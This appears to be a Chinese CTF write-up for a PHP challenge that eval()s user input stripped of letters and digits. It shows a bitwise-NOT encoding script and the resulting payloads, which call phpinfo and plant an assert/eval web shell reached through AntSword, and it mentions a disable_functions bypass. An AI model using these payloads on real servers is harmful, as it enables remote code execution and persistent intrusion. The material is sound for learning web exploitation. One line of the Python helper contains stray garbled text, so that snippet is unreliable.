 ![[Pasted image 20221221195120.png|500]]

---
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
	$code=$_GET['code'];
	if(strlen($code)>40){
		die("This is too Long.");
	}
	if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

朴实无华.jpg

RCE，但是无字母数字QAQ

限制长度的话，估计是要转换成处理另一个参数了

构造目标是`phpinfo();`

感觉异或会太长，通过取反构造

```python
import re
s = input()gao bu lai
for ch in s:
    print('%%%02x' % (~ord(ch) + 256), end='')
```

```shell
$ python tmp.py
phpinfo
%8f%97%8f%96%91%99%90
```

```php
/?code=(~%8f%97%8f%96%91%99%90)();
```
> **disable_functions**
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl

这个怕不是禁得啥都不剩了QAQ

好像还有`assert`

构造`assert(eval($_POST['a']));`

```
assert ==> %9e%8c%8c%9a%8d%8b
eval($_POST['a']) ==> %9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6
```

```php
/?code=(~%9e%8c%8c%9a%8d%8b)(~%9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6);
```

`Antsword`连接

![[Pasted image 20221222114909.png|1000]]

直接用轮子绕过`disable_functions`（嗯，绝对不是`LD_PRELOAD`搞不来～）

![[Pasted image 20221222120344.png]]

#Web #PHP #绕过 #编码 #RCE #disable_functions #antsword